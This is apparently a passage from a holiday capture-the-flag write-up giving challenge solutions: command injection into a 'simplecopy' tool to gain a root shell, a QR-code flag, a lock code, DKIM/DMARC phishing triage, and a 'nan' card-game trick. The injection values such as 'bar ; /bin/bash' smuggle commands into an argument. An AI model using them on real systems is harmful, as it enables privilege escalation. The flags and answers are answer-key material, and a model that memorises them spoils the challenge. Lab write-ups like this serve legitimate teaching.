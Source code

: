     
    simplecopy foo "bar ; whoami"
    cp: cannot stat 'foo': No such file or directory
    root

    simplecopy foo "bar ; /bin/bash"
    cd /root
    ./runmetoanswer


or 

    simplecopy foo "bar ; /root/runmetoanswer"

    Who delivers Christmas Presents?

    santa


## Tarnished Trove 

###  Game Cartridges Vol. 1

Fix the QR code then scan for URL 

http://8bitelf.com

`flag:santaconfusedgivingplanetsqrcode`

## Squarewheel Yard

### Luggage Lock
Decode as if you would a real wheel lock (as much as possible) 
`7484`

### Fishing Challenge

# Film Noir Island

## The Blacklight District

### Phish Detective Agency

Basically look through emails and see if sending domain matches return path and there are no failures in DKIM or DMARC. If domains match and DKIM + DMARC are a pass then mark as safe, any mismatches or failures mark as phishing

## Chiaroscuro City 

### Na'an
Choose `0`, `9`, and `nan` in your card values and repeat until reaching a score of 10 
